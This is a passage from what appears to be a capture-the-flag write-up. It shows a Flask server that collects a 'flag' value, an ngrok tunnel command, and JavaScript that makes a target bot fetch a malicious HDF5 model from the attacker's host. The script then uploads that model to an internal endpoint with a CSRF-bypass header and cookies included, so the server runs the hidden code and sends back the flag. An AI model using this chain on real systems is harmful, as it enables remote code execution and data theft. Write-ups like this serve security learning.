 ```python
    if flag:
        print(f"Flag parameter received: {flag}")
    else:
        print("No flag parameter received.")
    
    # Return the 'flag' value in the response
    return jsonify({
        "message": "Flag received",
        "flag": flag
    })
# Start the Flask server
if __name__ == '__main__':
    app.run(debug=True, port=3333)
```

In order to allow the bot to connect to our server that runs locally you can use ngrok, with the following command:

```sh
ngrok tcp 3333
```

The final step is to create the javascript code that we want the bot to execute. We first want him to do a GET request to our server and take the contents of the **attack_model.h5**, then send a POST request to the internal server, at **/api/internal/model**,
to send the malicious neural network. Once that is done, the internal server will execute the code hidden inside the network and send back the flag to our server.
The javascript code in a pretty format is the following:

```javascript
const postForm = async (url, formData) => { 
  return await fetch(url, { 
    method: 'POST', 
    body: formData, 
    headers: { 
      'X-SPACE-NO-CSRF': '1', // Custom header to bypass CSRF protection
    }, 
    credentials: 'include', // Include cookies with the request
  });
};

fetch('http://<ngrok_ip>/my_file')
  .then(response => response.blob()) // Convert the response to a blob
  .then(blob => {
    const my_file = new File([blob], 'pwn.h5', { type: 'application/x-hdf' }); // Create a File object
    const formData = new FormData(); // Create FormData to send the file
    formData.append('file', my_file); // Append the file to FormData

    postForm('/api/internal/model', formData); // Post the form data
  });
```

